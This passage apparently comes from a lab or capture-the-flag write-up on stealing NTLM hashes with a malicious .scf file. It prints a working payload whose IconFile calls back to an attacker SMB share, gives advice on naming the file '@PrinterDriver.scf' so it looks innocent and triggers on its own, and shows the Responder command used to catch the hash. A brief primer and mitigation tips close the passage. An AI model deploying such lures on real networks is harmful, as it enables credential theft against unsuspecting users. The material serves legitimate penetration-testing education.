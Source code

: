 -   **I save the below as a** `.scf` **file**:
    ```shell
    [Shell]
    Command=2
    IconFile=\\10.10.14.97\share\LasjetJet.ico
    [Taskbar]
    Command=ToggleDesktop
    ```

    -   +Note+:
        -   I name it `@PrinterDriver.scf` so it's something similar what would be uploaded so it does not arouse suspicion &amp; looks legitimate.
        -   Put an `@` at the start of the name so it appears at the top and ensure it is executed as soon as the user accesses the share it is in. This way the user does not need to click on it and it will trigger.
        -   This type of attack is typically done with SMB shares.

-   **I start responder**:
    -   `sudo responder -wd -v -I tun0`
    -   {{< figure src="/ox-hugo/2024-11-11-122444_.png" >}}

-   **I upload the** `.scf`:
    -   {{< figure src="/ox-hugo/2024-11-11-115315_.png" >}}

-   **I get a hit &amp; get back the user tony's NTLM hash**:
    -   {{< figure src="/ox-hugo/2024-11-11-115522_.png" >}}


##### SCF (Shell Command File) Primer: {#scf--shell-command-file--primer}

-   **Purpose:** Originally designed for quick access to certain Windows system commands, like opening Windows Explorer or the Recycle Bin.

-   **File Extension:** `.scf`

-   **Format:** Plain text file with commands in a specific format, commonly referencing icon locations.

-   **Common Fields:**
    -   `[Shell]` – Header indicating it’s an SCF file.
    -   `Command` – Specifies the command or action to take, like opening Windows Explorer.
    -   `IconFile` – Points to an icon resource (e.g., file path or UNC path).

-   **Exploitability:**
    -   SCF files can be exploited because Windows automatically renders icon files specified in SCF files.
    -   By pointing the **IconFile** field to a remote UNC path, an attacker can trigger Windows Explorer to initiate an SMB connection to the specified path, leaking NTLM hashes in the process.

-   **Mitigation Tips**:
    -   Disabling SMBv1 and securing SMB authentication settings can help mitigate risks associated with SCF file exploitation.
    -   Recent versions of Windows Server (2019+) handle SCF files differently, limiting their exploitability.

